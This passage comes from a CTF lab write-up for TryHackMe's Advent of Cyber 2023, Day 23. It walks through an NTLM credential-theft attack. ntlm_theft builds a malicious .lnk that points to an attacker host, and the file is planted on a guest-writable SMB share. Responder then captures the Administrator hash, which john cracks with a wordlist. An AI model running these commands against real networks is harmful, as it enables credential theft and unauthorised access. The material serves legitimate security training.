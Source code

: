 To accomplish this, we can use [ntlm_theft](https://github.com/Greenwolf/ntlm_theft):

```console
$ python3 ntlm_theft.py -g lnk -s <ATTACKER_IP> -f stealthy
```

The above will create a `lnk` in the `stealthy` directory named `stealthy.lnk`.

Adding the `lnk` to the network share:

```console
$ cd stealthy
$ smbclient //<MACHINE_IP>/ElfShare/ -U guest%
smb: \> put stealthy.lnk
smb: \> dir
```

The above will connect to the share as `guest` and upload the file to the share.

Next, we can run a `responder` listener for incoming authentication attempts:

```console
$ responder -I <INTERFACE>
```

Eventually, will get a captured hash for the `ELFHQSERVER\Administrator` user. Once we received this, we can use `john` along with `greedykeys.txt` from the share to crack the hash:

```console
$ john --wordlist=greedykeys.txt hash.txt
```

This reveals the password as `GreedyGrabber1@`, allowing us to get the flag when we authenticate via RDP:

![Advent of Cyber 2023 Day 23 - Flag](tryhackme/images/aoc2023d23_flag.png)

## Day 24 - You Are on the Naughty List, McGreedy
